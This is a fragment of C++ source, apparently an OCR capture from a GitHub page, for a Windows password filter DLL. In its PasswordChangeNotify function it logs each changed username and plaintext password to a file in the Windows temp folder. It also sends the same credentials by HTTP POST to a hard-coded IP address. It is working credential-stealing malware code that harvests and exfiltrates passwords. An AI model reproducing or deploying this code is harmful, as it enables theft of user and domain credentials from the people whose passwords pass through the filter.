 ```c++
    return;
}

// Default DllMain implementation
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
                     )
{
    OutputDebugString(L"DllMain");
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}

BOOLEAN __stdcall InitializeChangeNotify(void)
{
    OutputDebugString(L"InitializeChangeNotify");
    writeToLog("InitializeChangeNotify()");
    return TRUE;
}

BOOLEAN __stdcall PasswordFilter(
    PUNICODE_STRING AccountName,
    PUNICODE_STRING FullName,
    PUNICODE_STRING Password,
    BOOLEAN SetOperation )
{
    OutputDebugString(L"PasswordFilter");
    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(
    PUNICODE_STRING UserName,
    ULONG RelativeId,
    PUNICODE_STRING NewPassword )
{
  FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
  //HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);
    HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
    HINTERNET hSession = InternetConnect(hInternet,L"192.168.1.1",80,NULL,NULL,INTERNET_SERVICE_HTTP ,0,0);
    HINTERNET hReq = HttpOpenRequest(hSession,L"POST",L"/",NULL,NULL,NULL,0,0);
    char* pBuf="SomeData";

    OutputDebugString(L"PasswordChangeNotify");
    if (NULL == pFile)
    {
        return;
    }
    fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer,NewPassword->Buffer);
  fclose(pFile);
    InternetSetOption(hSession,INTERNET_OPTION_USERNAME,UserName->Buffer,UserName->Length/2);
    InternetSetOption(hSession,INTERNET_OPTION_PASSWORD,NewPassword->Buffer,NewPassword->Length/2);
    HttpSendRequest(hReq,NULL,0,pBuf,strlen(pBuf));
```